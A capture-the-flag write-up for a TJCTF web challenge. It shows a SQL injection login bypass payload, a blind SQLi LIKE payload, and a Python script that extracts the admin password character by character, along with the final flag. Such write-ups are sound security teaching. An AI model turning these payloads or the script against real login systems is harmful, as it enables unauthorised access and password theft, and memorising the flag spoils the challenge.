

**WEAK PASSWORD** 


**Category:** Web
**Concepts:** sql injection, blind sqli

**Problem Statement:**
It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

**Hints**
None




The website is vulnerable to sql injection.
PoC query: admin' --

But the goal here is not to login, but to figure out the password. So I did a blind SQL injection to leak out the password.
PoC query: ' or password like 'b%' --

So I wrote a python script to achieve this

Response:
```python
import requests

current = ""
flag = True
while flag:
    flag = False
    url = "https://weak_password.tjctf.org/login"

    for ch in range(ord('a'), ord('z')+1):
        data = {"username": "admin", "password":f"' or password like '{current}{chr(ch)}%' --"}
        print(f"testing {current}{chr(ch)}")

        session = requests.Session()
        response = session.post(url, data = data)

        content = response.text
        words = content.split(" ")
        if("<p>Congratulations!" in words):
            flag = True
            print (f"GOT{current}{ch}")
            current+=chr(ch)
            break
    if not flag:
        for ch in range(0, 10):
            data = {"username": "admin", "password":f"' or password like '{current}{ch}%' --"}
            print(f"testing {current}{ch}")

            session = requests.Session()
            response = session.post(url, data = data)

            content = response.text
            words = content.split(" ")
            if("<p>Congratulations!" in words):
                flag = True
                print (f"GOT {current}{ch}")
                current+=str(ch)
                break

print(current)

```
Finally I got the password : blindsqli14519


**FLAG:** tjctf{blindsqli14519}


